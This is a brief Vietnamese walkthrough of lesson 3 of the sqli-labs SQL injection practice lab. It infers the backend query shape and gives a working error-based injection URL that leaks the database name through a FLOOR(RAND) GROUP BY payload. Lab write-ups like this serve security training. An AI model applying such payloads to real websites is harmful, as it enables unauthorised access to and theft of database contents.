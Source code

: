 # Less 3

Ta thấy bài này là error based

![](../images/sqli-labs/Less-3/1.png)

Yêu cầu nhập vào một số

![](../images/sqli-labs/Less-3/2.png)

Bắt đầu thử

![](../images/sqli-labs/Less-3/3.png)

![](../images/sqli-labs/Less-3/5.png)

Có thể dự đoán câu query sẽ là:

```
select user, passwd from table where id='$ID'
```

![](../images/sqli-labs/Less-3/4.png)

![](../images/sqli-labs/Less-3/6.png)

![](../images/sqli-labs/Less-3/7.png)

Câu query có thể là:

```
select user, passwd from table where id=('$ID') limit 0,1
```

Ta có thể show được các thông tin

```
http://192.168.84.233/sqli-labs/Less-3/?id=1') and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-3/01.png)

Ta có thể thao giống [Less-1](sqli-labs/Less-1.md))